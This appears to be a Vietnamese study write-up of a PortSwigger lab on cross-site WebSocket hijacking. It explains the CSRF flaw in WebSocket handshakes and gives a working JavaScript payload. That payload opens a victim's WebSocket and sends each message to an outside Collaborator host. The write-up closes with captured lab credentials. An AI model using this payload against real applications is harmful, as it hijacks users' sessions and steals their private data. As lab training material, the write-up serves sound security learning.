






# Cross-site WebSocket hijacking

## What is cross-site WebSocket hijacking?

Tấn công WebSocket cross-site (còn được gọi là tấn công WebSocket chéo nguồn) liên quan đến lỗ hổng làm giả yêu cầu chéo trang web (CSRF) trên bắt tay WebSocket. Lỗi này phát sinh khi yêu cầu bắt tay WebSocket chỉ dựa vào cookie HTTP để xử lý phiên và không chứa bất kỳ mã thông báo CSRF hoặc các giá trị không thể đoán trước nào.

Kẻ tấn công có thể tạo một trang web độc hại trên tên miền của chúng, thiết lập kết nối WebSocket xuyên trang web tới ứng dụng dễ bị tấn công. Ứng dụng sẽ xử lý kết nối trong bối cảnh phiên làm việc của người dùng nạn nhân với ứng dụng.

Sau đó, trang web của kẻ tấn công có thể gửi các tin nhắn tùy ý đến máy chủ thông qua kết nối và đọc nội dung của các tin nhắn được nhận lại từ máy chủ. Điều này có nghĩa là, không giống như CSRF thông thường, kẻ tấn công sẽ có được sự tương tác hai chiều với ứng dụng bị xâm phạm.

## What is the impact of cross-site WebSocket hijacking?

Một cuộc tấn công chiếm quyền điều khiển WebSocket chéo trang thành công thường sẽ cho phép kẻ tấn công:

- **Thực hiện các hành động trái phép bằng cách giả danh người dùng là nạn nhân.** Giống như CSRF thông thường, kẻ tấn công có thể gửi tin nhắn tùy ý đến ứng dụng phía máy chủ. Nếu ứng dụng sử dụng tin nhắn WebSocket do máy khách tạo ra để thực hiện bất kỳ hành động nhạy cảm nào, thì kẻ tấn công có thể tạo các tin nhắn phù hợp trên nhiều miền và kích hoạt các hành động đó. 
- **Truy xuất dữ liệu nhạy cảm mà người dùng có thể truy cập.** Không giống như CSRF thông thường, việc tấn công WebSocket chéo trang web cung cấp cho kẻ tấn công khả năng tương tác hai chiều với ứng dụng dễ bị tấn công thông qua WebSocket bị tấn công. Nếu ứng dụng sử dụng tin nhắn WebSocket do máy chủ tạo để trả về bất kỳ dữ liệu nhạy cảm nào cho người dùng, thì kẻ tấn công có thể chặn các tin nhắn đó và lấy cắp dữ liệu của người dùng nạn nhân.

## Thực hiện a cross-site WebSocket hijacking attack

Vì một cuộc tấn công chiếm đoạt WebSocket chéo trang về cơ bản là một lỗ hổng CSRF trên bắt tay WebSocket, bước đầu tiên để thực hiện một cuộc tấn công là xem xét các giao thức WebSocket mà ứng dụng thực hiện và xác định xem chúng có được bảo vệ chống lại CSRF hay không.

Về điều kiện thông thường cho các cuộc tấn công CSRF, bạn thường cần tìm một thông báo bắt tay chỉ dựa vào cookie HTTP để xử lý phiên và không sử dụng bất kỳ mã thông báo hoặc giá trị không thể đoán trước nào trong tham số yêu cầu.

Ví dụ: yêu cầu bắt tay WebSocket sau đây có thể dễ bị tấn công CSRF vì mã thông báo phiên duy nhất được truyền qua cookie:

```http
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```

Note: Tiêu đề `Sec-WebSocket-Key` chứa một giá trị ngẫu nhiên để ngăn ngừa lỗi từ việc lưu trữ đệm proxy và không được sử dụng cho mục đích xác thực hoặc xử lý phiên.

Nếu yêu cầu bắt tay WebSocket dễ bị tấn công bởi CSRF, thì trang web của kẻ tấn công có thể thực hiện yêu cầu liên trang web để mở WebSocket trên trang web dễ bị tấn công. Những gì xảy ra tiếp theo trong cuộc tấn công hoàn toàn phụ thuộc vào logic của ứng dụng và cách ứng dụng sử dụng WebSockets. Cuộc tấn công có thể bao gồm:
- Gửi tin nhắn WebSocket để thực hiện các hành động trái phép thay mặt cho người dùng nạn nhân.
- Gửi tin nhắn WebSocket để truy xuất dữ liệu nhạy cảm.
- Đôi khi, chỉ cần chờ tin nhắn đến có chứa dữ liệu nhạy cảm.

---

### Ví dụ: Cross-site WebSocket hijacking

https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab

Quan sát khi bắt đầu 1 đoạn chat ta sẽ gửi lên server đoạn lệnh "Ready"



Nhìn vào phần kết nối ta thấy nó không dùng CSRF nào mà chỉ dùng session để kết nối



Bật Collaborator để lắng nghe, ở server exploit ta sẽ gửi 1 đoạn kết nối WebSocket để trang victim với lệnh `Ready` và bắt các gói tin nó gửi về

Ở server exploit ta thêm đoạn js:

```js
<script>
    var ws = new WebSocket('wss://0adc008204d6c685804b62d400f5008c.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://jm931uw7tsjlp951jh28vmyylprgf63v.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```



Chọn `View exploit` để xem thử kết quả



Ta đã có thể bắt được đoạn json có các tin nhắn trước đó

Gửi cho victim và ta bắt được:





`carlos:nsjl49yge1jdny6y3gsx`


